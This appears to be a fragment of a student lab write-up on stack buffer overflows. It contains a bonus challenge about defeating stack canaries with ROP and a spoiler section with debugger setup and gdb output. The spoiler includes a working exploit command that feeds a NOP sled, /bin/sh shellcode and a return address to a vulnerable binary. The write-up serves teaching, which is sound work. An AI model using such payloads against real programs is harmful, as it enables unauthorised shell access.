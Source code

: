 Anout of register increased, also there are different prefixes in 64-bit aplications `R()` and in 32-bit aplications `E()`

* Do we need to use shell code to do this task? Justify your answer.

No, we just need to leak password

---

## **Bonus - Buffer overflow attack with memory protection enabled**

A challenge for those who want to defeat memory protection via stack canaries leaking and ROP. You need to deploy the docker container on your machine.

:::info
An acquaintance of mine, a first-year student, began writing a program to exchange secrets
between friends. Since he loves to show off, he opened access to his program on a public port, on
his Arch Linux.
Help me teach him a lesson.
:::

---

## References
1. [Protecting binaryes](https://vickieli.dev/binary%20exploitation/protecting-binaries/)
2. [Stack canaries](https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-4-stack-canaries-e9b6dd2c3127)



:::spoiler
https://github.com/eteran/edb-debugger
sudo apt install -y qt5-default qtcreator libboost-all-dev libcapstone2 libcapstone-dev graphviz
sudo apt install -y qt5-default qtcreator libboost-all-dev  libcapstone-dev graphviz cmake libqt5xmlpatterns5-dev qttools5-dev-tools qttools5-dev libqt5svg5-dev libqt5x11extras5-dev

https://russianblogs.com/article/2137438551/
pida
sudo apt install python3-pip
pip install peda

al
```
./task3 $(python -c "print('\x90'*(140-46)+'\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + '\x4c\xcf\xff\xff')")
```
task3

disassemble main
```
   0x08048453 <+6>:	sub    esp,0x90
```

esp 0xffffcf00 —▸ 0xffffcf10 ◂— 0x61616161 ('aaaa')

x $esp
0xffffcf00:	0xffffcf10



![](https://i.imgur.com/0iwKQ7V.png)

76296819 8917 mov dword ptr ds:[edi], edx

![](https://i.imgur.com/C5bI3L9.png)

B7B6B5B4

:::